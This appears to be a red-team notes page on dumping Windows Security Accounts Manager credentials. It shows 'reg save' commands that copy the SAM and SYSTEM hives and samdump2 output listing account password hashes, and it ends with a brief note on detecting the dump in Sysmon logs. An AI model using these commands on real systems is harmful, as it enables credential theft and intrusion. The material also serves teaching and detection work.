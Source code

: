 ```yaml
---
description: >-
  Security Accounts Manager (SAM) credential dumping with living off the land
  binary.
---
```


# Security Accounts Manager

## Execution

Dumping the registry hives required for hash extraction:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
reg save hklm\system system
reg save hklm\sam sam
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Once the files are dumped and exfiltrated, we can dump hashes with samdump2 on kali:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```text
root@~/tools/mitre/pwdump# samdump2 system sam 
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:9f288c9a9aee917e19d4b21928b98268:::
low:1003:aad3b435b51404eeaad3b435b51404ee:4bdaf9484819a077562ebeefaed6ca75:::
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

Sysmon logs with commandlines will reveal credential dump attempts from the registry as expected:

![](../../.gitbook/assets/pwdump-reg-sysmon.png)

